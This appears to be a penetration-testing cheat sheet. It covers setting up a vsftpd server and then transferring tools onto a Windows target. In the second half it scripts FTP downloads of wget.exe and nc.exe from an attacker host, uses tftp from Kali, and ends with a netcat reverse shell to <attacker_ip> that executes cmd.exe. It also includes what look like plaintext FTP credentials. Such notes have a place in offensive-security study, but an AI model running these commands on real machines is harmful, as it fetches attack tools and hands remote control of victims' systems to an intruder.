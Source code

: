 !!! info ""

### vsftpd

    #### Installing vsftpd

    ```bash
    sudo apt-get install vsftpd
    sudo nano /etc/vsftpd.conf
    ```

    locate **write_enable=YES** and remove the **#** infront of it and save the file changes.

    #### Restart vsftpd  

    ```bash
    sudo systemctl restart vsftpd
    ```

    #### purging vsftpd

    ```bash
    sudo apt purge vsftpd
    ```


!!! info ""
    ### another way

    #### Set up a ftp downloading script on the target machine

    ```bash
    echo open IP 21 > ftp.txt
    echo USER acknak>> ftp.txt
    echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
    echo ftp >> ftp.txt
    echo bin >> ftp.txt
    echo GET wget.exe >> ftp.txt
    echo bye >> ftp.txt
    ```

    #### Download the prepared file

    ```bash
    ftp -v -n -s:ftp.txt
    ```

    #### Start tftp server on Kali

    ```bash
    aftpd start
    ```

    #### Transfer files from Kali to Windows (from windows terminal)

    ```bash
    tftp -I IPADDRESS GET nameoffile.exe
    ```

    #### You can have a shell using this

    ```bash
    echo open <attacker_ip> 21> ftp.txt
    echo USER offsec>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt
    nc.exe <attacker_ip> 1234 -e cmd.exe
    ```
